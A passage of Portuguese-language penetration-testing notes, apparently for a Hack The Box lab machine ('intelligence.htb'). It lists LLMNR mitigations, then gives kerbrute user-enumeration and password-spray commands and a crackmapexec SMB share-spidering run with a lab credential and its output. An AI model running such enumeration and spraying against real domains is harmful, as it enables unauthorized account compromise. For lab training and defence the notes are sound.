     Medidas para mitigar 
    
    - Desativar o LLMNR no computador;
    - Usar uma password grande (>14 caracteres) e com caracteres pouco previsiveis;
- Kerbrute
    
    `./kerbrute userenum --dc 10.129.95.154 -d intelligence.htb user.txt`
    
    `./kerbrute passwordspray --dc 10.129.95.154 -d intelligence.htb user.txt`
    
    `crackmapexec smb 10.129.95.154 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares -M spider_plus`
    
    ```
    ──╼ [★]$ crackmapexec smb 10.129.95.154 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares -M spider_plus
    [*] First time use detected
    [*] Creating home directory structure
    [*] Creating default workspace
    [*] Initializing FTP protocol database
    [*] Initializing MSSQL protocol database
    [*] Initializing WINRM protocol database
    [*] Initializing LDAP protocol database
    [*] Initializing RDP protocol database
    [*] Initializing SSH protocol database
    [*] Initializing SMB protocol database
    [*] Copying default configuration file
    [*] Generating SSL certificate
    SMB         10.129.95.154   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
    SMB         10.129.95.154   445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
    SPIDER_P... 10.129.95.154   445    DC               [*] Started spidering plus with option:
    SPIDER_P... 10.129.95.154   445    DC               [*]        DIR: ['print$']
    SPIDER_P... 10.129.95.154   445    DC               [*]        EXT: ['ico', 'lnk']
    SPIDER_P... 10.129.95.154   445    DC               [*]       SIZE: 51200
    SPIDER_P... 10.129.95.154   445    DC               [*]     OUTPUT: /tmp/cme_spider_plus
    SPIDER_P... 10.129.95.154   445    DC               [*] Reconnect to server 4
    SMB         10.129.95.154   445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
    SPIDER_P... 10.129.95.154   445    DC               [*] Reconnect to server 3
    SMB         10.129.95.154   445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
    SPIDER_P... 10.129.95.154   445    DC               [*] Reconnect to server 2
    SMB         10.129.95.154   445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
    SPIDER_P... 10.129.95.154   445    DC               [*] Reconnect to server 1
    SMB         10.129.95.154   445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
    SPIDER_P... 10.129.95.154   445    DC               [*] Reconnect to server 0
    SMB         10.129.95.154   445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
    ```
    
